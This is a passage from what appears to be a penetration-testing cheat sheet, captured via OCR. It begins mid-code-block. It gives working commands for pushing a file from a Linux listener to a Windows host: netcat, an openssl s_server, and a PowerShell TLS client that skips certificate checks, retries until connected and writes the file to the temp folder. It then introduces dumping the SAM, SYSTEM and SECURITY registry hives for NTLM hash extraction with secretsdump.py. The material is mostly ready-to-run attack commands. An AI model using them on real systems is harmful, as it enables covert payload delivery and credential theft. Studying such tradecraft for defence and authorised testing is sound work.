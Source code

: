 ```powershell
$socket.close();
exit;
```

Start netcat listener on Linux (10.192.103.49) to serve the file.<br />
`cat file.bin | base64 | timeout 10 nc -nlvp 4444`

**Receive file over a TLS socket**

Retrieve the file on Windows host using powershell.  Will retry until server responds.<br />
```powershell
$fdata = "";
$fname = $env:temp + "\file.bin";
$ErrorActionPreference = 'SilentlyContinue';
while($true)
{
   $socket = New-Object system.Net.Sockets.TcpClient;
   $socket.Connect('10.192.103.49', '443');
   if($socket.Connected)
   {
      break;
   }
   Start-Sleep -Seconds 1;
}
$stream = $socket.GetStream();
$callback = { param($sender, $cert, $chain, $errors) return $true };
$sslstream = New-Object System.Net.Security.SslStream($stream, $true, $callback);
$sslstream.AuthenticateAsClient("whatever", $null, "tls12", $false);
$stream = $sslstream;
$reader = new-object System.IO.StreamReader($stream);
$res = $reader.ReadToEnd();
$fdata = "$fdata$res";
$bytes = [Convert]::FromBase64String($fdata);
[IO.File]::WriteAllBytes($fname, $bytes);
$reader.close();
$stream.close();
$socket.close();
exit;
```

Start openssl server on Linux (10.192.103.49).<br />
Generate a certificate and key first.<br />
`openssl req -x509 -newkey rsa:2048 -keyout svrkey.pem -out svrcert.pem -days 365 -nodes`

`openssl s_server -quiet -tls1_2 -cipher HIGH -key svrkey.pem -cert svrcert.pem -accept 443 -naccept 1 < <(cat file.bin | base64)`

## >> Reg.exe DLL equivalent to dump registry hashes

Compile your own DLL to dump the SAM, SYSTEM and SECURITY keys, which can be used with secretsdump.py to get NTLM hashes.  Performs the equivalent of:<br />
`reg save hklm\sam sam`<br />
`reg save hklm\system system`<br />
`reg save hklm\security security`<br />
